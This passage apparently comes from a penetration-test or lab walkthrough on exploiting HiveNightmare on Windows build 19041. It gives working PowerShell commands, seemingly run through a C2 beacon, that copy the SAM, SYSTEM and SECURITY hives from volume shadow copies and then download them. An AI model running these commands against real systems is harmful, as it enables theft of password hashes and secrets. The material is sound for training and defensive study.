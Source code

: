 >[!info] Discovery
>You should notice that the build is 19041, which is windows verion 2004 ( 20H1)
>This build is likely vulnerable to HiveNightmare

### Manual HiveNightmare

Instead of uploading and executing a binary in order to essentially copy three files, we are going to use the windows API to copy the files and then download them. First, let's see if we can read the backed up SAM hive.

```powershell
cd c:\users\houston.clements\appdata\local\temp

shell powershell "[System.IO.File]::Copy((\"\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\sam\"), (\"sam1.bak\"))"

ls

```

>[!info] Discovery
>The fact that we can copy this hive means that there is at least one volume shadow copy that we can read


```

shell powershell "[System.IO.File]::Copy((\"\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\config\sam\"), (\"sam2.bak\"))"

ls

```

>[!info] Discover
>This shows us that there isn't a second one

```

shell powershell "[System.IO.File]::Copy((\"\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\system\"), (\"system1.bak\"))"

shell powershell "[System.IO.File]::Copy((\"\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\security\"), (\"security1.bak\"))"

ls

```

Next, download the files by using the download command and copying the name of each file.

```
download sam1.bak
download system1.bak
download security1.bak
```
